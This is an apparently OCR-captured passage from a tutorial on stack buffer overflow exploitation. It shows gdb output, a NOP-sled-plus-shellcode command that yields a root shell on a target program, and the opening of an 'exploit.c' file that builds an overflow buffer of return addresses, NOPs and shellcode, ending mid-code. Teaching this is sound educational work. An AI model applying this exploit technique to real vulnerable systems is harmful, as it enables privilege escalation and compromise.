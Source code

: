 ```css
   0x0000555555555177 <+62>:    ret

(gdb) b *0x555555555030
Breakpoint 1 at 0x555555555030
(gdb) run   `python3 -c 'print("\x90"*200)'`
Breakpoint 1, 0x0000555555555030 in strcpy@plt ()
(gdb) info register

```

The shellcode should then be appended to the NOP sled. It’s quite useful to have the shellcode existing in a file somewhere, so putting the shellcode into a file should be the next step. Because all the bytes are already spelled out in hexadecimal in the beginning of the exploit, these bytes just need to be written to a file

```bash
$ ./f00  `python3 -c 'print "\x90"*22+"shellcode"'`
sh-2.05a# whoami
root
sh-2.05a#
```

`exploit.c`

```cpp
#include <stdlib.h>

char shellcode[] = "";

unsigned long sp(void)         // This is just a little function
{ __asm__("movl %esp, %eax");} // used to return the stack pointer

int main(int argc, char *argv[])
{
  int i, offset;
  long esp, ret, *addr_ptr;
  char *buffer, *ptr;

  offset = 0;                 // Use an offset of 0
  esp = sp();                 // Put the current stack pointer into esp
  ret = esp - offset;         // We want to overwrite the ret address

  printf("Stack pointer (ESP) : 0x%x\n", esp);
  printf("    Offset from ESP : 0x%x\n", offset);
  printf("Desired Return Addr : 0x%x\n", ret);

// Allocate 600 bytes for buffer (on the heap)
  buffer = malloc(600);

// Fill the entire buffer with the desired ret address
  ptr = buffer;
  addr_ptr = (long *) ptr;
  for(i=0; i < 600; i+=4)
  { *(addr_ptr++) = ret; }


// Fill the first 200 bytes of the buffer with NOP instructions
  for(i=0; i < 200; i++)
  { buffer[i] = '\x90'; }

// Put the shellcode after the NOP sled
  ptr = buffer + 200;
  for(i=0; i < strlen(shellcode); i++)
  { *(ptr++) = shellcode[i]; }

```